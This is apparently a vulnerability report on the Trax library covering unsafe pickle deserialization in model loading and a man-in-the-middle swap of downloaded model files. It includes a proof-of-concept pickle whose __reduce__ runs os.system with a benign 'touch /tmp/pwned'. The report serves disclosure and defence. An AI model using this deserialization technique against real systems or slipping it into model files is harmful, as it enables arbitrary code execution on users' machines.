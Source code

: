   ```python
  # Example code snippet from README.md (not actual source code of Trax library)
  model.init_from_file('gs://trax-ml/models/translation/ende_wmt32k.pkl.gz',
                       weights_only=True)
  ```
  This code snippet demonstrates the usage of `model.init_from_file`.  Assuming this function uses `pickle.load` (or similar insecure deserialization) internally to load the `.pkl.gz` file, it becomes vulnerable to arbitrary code execution.
  When `model.init_from_file` is called with a path to a malicious pickle file, the `pickle.load` function will deserialize the file's contents. If the attacker has embedded malicious Python code within the pickle file, `pickle.load` will execute that code during the deserialization process. This happens because pickle is not designed to be secure against malicious or untrusted data.
- **Security test case:**
  1. **Create a malicious pickle file (`malicious_model.pkl`)**:
     ```python
     import pickle
     import os

     class MaliciousObject:
         def __reduce__(self):
             return (os.system, ('touch /tmp/pwned',))

     malicious_object = MaliciousObject()
     pickle.dump(malicious_object, open('malicious_model.pkl', 'wb'))
     ```
  2. **Create a Python script (`test_exploit.py`) to load the malicious model**:
     ```python
     import trax
     from trax import models

     try:
         model = trax.models.Transformer() # or any other Trax model
         model.init_from_file('malicious_model.pkl')
     except Exception as e:
         print(f"Exception during model loading: {e}")

     print("Loading attempted.")
     ```
  3. **Run the `test_exploit.py` script**:
     ```bash
     python test_exploit.py
     ```
  4. **Check for command execution**: Verify if the file `/tmp/pwned` was created:
     ```bash
     ls -l /tmp/pwned
     ```
     If the file `/tmp/pwned` exists, arbitrary code execution is confirmed.

### Man-in-the-Middle Attack on Pre-trained Model Loading

- **Vulnerability name:** Man-in-the-Middle Attack on Pre-trained Model Loading
- **Description:**
  1. A user intends to use a pre-trained Trax model and executes code that utilizes the `model.init_from_file` function to load model weights from a Google Cloud Storage (GCS) URL (e.g., `gs://trax-ml/models/translation/ende_wmt32k.pkl.gz`).
  2. An attacker, positioned in a Man-in-the-Middle (MITM) scenario (e.g., on a compromised network or through DNS spoofing), intercepts the network traffic between the user's machine and Google Cloud Storage.
  3. The attacker replaces the legitimate model file being downloaded from the GCS URL with a malicious file they control. This malicious file could contain backdoors, malware, or adversarial weights designed to compromise the user's system or the model's intended functionality.
  4. Trax's `model.init_from_file` function, as currently used in the example, loads the model weights from the (attacker-modified) file without performing integrity checks such as verifying a digital signature or checksum.
  5. The user's Trax model is initialized with the attacker's malicious weights.